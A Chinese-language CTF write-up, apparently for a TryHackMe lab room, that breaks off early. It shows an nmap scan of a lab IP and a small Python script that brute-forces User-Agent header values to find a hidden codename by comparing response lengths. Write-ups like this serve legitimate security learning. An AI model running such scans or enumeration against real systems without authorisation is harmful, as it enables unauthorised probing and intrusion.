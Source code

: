 # Agent Sudo Writeup
> URL: https://tryhackme.com/room/agentsudoctf

IP : 10.10.119.64

## Recon
- 老梗 `nmap -A 10.10.119.64`
	- ![](https://i.imgur.com/n3zFLNJ.png)
	- 發現有開
		- FTP
		- SSH
		- HTTP
- 嘗試進入 HTTP
	- ![](https://i.imgur.com/V7uzsli.png)
	- 看到他說需要在 useragent 放 `Codename`  (機密代號)
	- 又說 Dear agent, 下面有說 `Agent R`
	- 所以基本上可以先猜測 Agent `A` 到 `Z`

## 爆猜機密代號
- 瀏覽器沒有太方便，所以我們先把瀏覽器 request 轉 `curl`
	- ![](https://i.imgur.com/gcmLsCg.png)
	- 對著 F12 的 Reuest 右鍵，`Copy as cURL`
	- `curl 'http://10.10.119.64/' -H 'User-Agent: meow' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0, no-cache' -H 'Pragma: no-cache'`

- curl 轉 Python request
	- 我使用這個網站 https://curl.trillworks.com/
		- 把 curl 貼上就可以自動轉 python 的 request 了
	- 接下來寫一段扣爆破
	- ```python=
		import requests


		for i in "ABCDEFGHIJKLMNOPQRSTUVWXYZ":
			headers = {
				'User-Agent': i ,
				'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
				'Accept-Language': 'en-US,en;q=0.5',
				'Connection': 'keep-alive',
				'Upgrade-Insecure-Requests': '1',
				'Cache-Control': 'max-age=0, no-cache',
				'Pragma': 'no-cache',
			}

			response = requests.get('http://10.10.119.64/', headers=headers).text
			print(i,len(response))
		```
	- 因為如果猜錯他會回傳的字都是一樣的，那就猜測輸入正確時，他回傳的東西會不一樣，所以最簡單的方法可以用字串長度來比對，輸入錯誤時長度是 `218`
	- ![](https://i.imgur.com/HcfzzS4.png)
	- 運氣很好，`C` 就猜到ㄌ
